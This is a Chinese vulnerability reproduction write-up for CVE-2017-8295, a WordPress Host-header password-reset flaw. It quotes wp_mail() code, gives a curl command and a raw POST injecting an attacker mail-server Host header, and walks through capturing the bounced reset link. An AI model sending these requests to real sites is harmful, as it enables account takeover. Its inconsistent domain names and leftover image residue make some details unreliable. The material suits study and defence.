




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：2.3–4.8.3claimed; webSERVER_NAMEtrustsHost; MTAusesFromasreturnpath; bounce includes resetbody; target deliveryfails; knownusername

- **适用与权限边界（1）**：标题任意密码重置容易省略多项邮件服务器/退信条件，正文其实明确部分依赖，应结构化保留。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：注入Host=vulnspy.com却说回到wordpress@0-sec.org，另有0-sc/v0-sec错拼，攻击者MX地址链内部不一致。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **实验改动边界（3）**：不存在管理员邮箱是人为模拟条件，不证明所有站点均可制造退信。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **事实待核（4）**：图片后重复路径、URL占位与末尾image污染；无来源/实际安全修复版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2017-8295）WordPress 2.3-4.8.3 任意密码重置/HOST头注入漏洞
================================================================

一、漏洞简介
------------

在 WordPress 2.3-4.8.3
版本中找回密码功能未正确设置发送邮件的信息，在发送找回密码邮件的过程中直接使用
Host
地址作为邮件请求头的一部分，在一些情况下攻击者可利用该功能窃取找回密码邮件内容。

二、漏洞影响
------------

WordPress 2.3-4.8.3

三、复现过程
------------

### 漏洞分析

在 WordPress 中， wp\_mail()
函数用来发送邮件，在发送邮件的过程中如果没有设置 发件地址（From）
，则会自动使用 \'wordpress@\' + \$\_SERVER\[\'SERVER\_NAME\'\]
作为邮件的 发件地址。主流的 Web 服务器中的 SERVER\_NAME
变量来自于客户端请求中 HTTP\_HOST 头，这就意味着该发件地址是用户可控的。

wp\_mail() 函数的声明在文件 WordPress/wp-includes/pluggable.php 中：

    function wp_mail( $to, $subject, $message, $headers = '', $attachments = array() ) {
    ...//ignore
        if ( !isset( $from_email ) ) {
            // Get the site domain and get rid of www.
            $sitename = strtolower( $_SERVER['SERVER_NAME'] );
            if ( substr( $sitename, 0, 4 ) == 'www.' ) {
                $sitename = substr( $sitename, 4 );
            }
            $from_email = 'wordpress@' . $sitename;
        }
        /**
         * Filters the email address to send from.
         *
         * @since 2.2.0
         *
         * @param string $from_email Email address to send from.
         */
        $from_email = apply_filters( 'wp_mail_from', $from_email );
        /**
         * Filters the name to associate with the "from" email address.
         *
         * @since 2.3.0
         *
         * @param string $from_name Name associated with the "from" email address.
         */
        $from_name = apply_filters( 'wp_mail_from_name', $from_name );
        $phpmailer->setFrom( $from_email, $from_name );
    ...//ignore
    }

在某些情况下邮件服务器会直接将邮件的 发件地址 作为
退件地址（Return-Path），当邮件发送失败时邮件会被自动转发到
退件地址。因为 发件地址
可被篡改，因此找回密码邮件的内容可能会被发送到恶意的邮件服务器中。

### 漏洞复现

#### 安装 WordPress 程序

此处的管理员邮箱设置为不存在的邮箱地址
demo\@0-sec.org，用来模拟通过DNS攻击/DOS攻击使管理员的找回密码邮件发送失败

WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId27.png)

#### 创建邮箱账户

演示中我们使用的是 wordpress\@0-sec.org

#### 通过在线终端，发起找回密码请求，并篡改 HTTP\_HOST 请求头

我们这里使用在线终端模拟攻击内网的 WordPress 网站。

在线终端中执行：

    curl -v 'http://0-sec.org/wp-login.php?action=lostpassword' -H 'Host: vulnspy.com' --data 'user_login=admin&redirect_to=&wp-submit=Get+New+Password'

WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId30.png)

post数据包：

    POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
    Host: injected-attackers-mxserver.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 56

    user_login=admin&redirect_to=&wp-submit=Get+New+Password

如果此时邮件发送失败，邮件会被自动退回到
wordpress\@0-sec.org。即原本要发送管理员邮箱 demo\@0-sec.org
的邮件会被发送到 wordpress\@0-sc.org

#### 使用 wordpress\@0-sec.org 接收找回密码邮件

如果利用成功 wordpress\@v0-sec.org 会接收到密码重置邮件。

WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId32.png)

如果邮件内容没有显示找回密码链接，可以通过邮件源文件发现找回密码链接

WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId33.png)

#### 使用找回密码链接修改密码

image
